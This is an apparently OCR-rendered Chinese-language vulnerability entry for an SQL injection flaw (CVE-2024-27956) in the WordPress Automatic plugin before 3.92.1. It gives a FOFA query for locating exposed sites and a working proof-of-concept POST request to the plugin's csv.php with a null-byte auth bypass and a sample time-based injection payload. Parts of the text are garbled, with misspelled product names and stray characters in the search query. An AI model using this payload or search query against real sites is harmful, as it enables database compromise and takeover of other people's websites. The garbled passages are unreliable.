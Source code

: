 # WordPress Automatic插件 SQL注入漏洞

## 产品简介
WordPress9 Automatic(又称为WP Automatic)是一款流行的WordPress插件，旨在帮助网站管理员自动化内容创建和发布。该插件可以从各种来源(如RSS Feeds、社交媒体、视频网站、新闻网站等)获取内容，并将其自动发布到WordPress网站。

##  漏洞概述

WordPress Auomaic 插件3.92.1之前版本中存在S0L沣入漏洞，该漏洞源干插件的用户身份验证机制，威胁者可以绕过该机制执行严章SQL查询，将任意SQL代码注入网站的数据库并实现权限提升。成功利用该漏洞可能获得对网站的未授权访问、创建管理员帐户、上传恶意文件，并可能完全控制受影响的网站。

## 影响范围

WordPress Automatic Plugin < 3.92.1

## fofa查询

FOFA: body="Áwp-content/pluginsÁwp-automatic"

## poc

```yaml
方法POST 
路径/wp-content/plugins/wp-automatic/inc/csv.php

提交字段 
q={{query}}&auth=%00&integ={{md5query}}

样例
q=SELECT+IF(1=1,sleep(5),sleep(0))&auth=%00&integ=93cf9aa11e746596d6f31765a7222c9f

```

![1](CVE-2024-27956%20WordPress%20Automatic%E6%8F%92%E4%BB%B6%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.assets/1.png)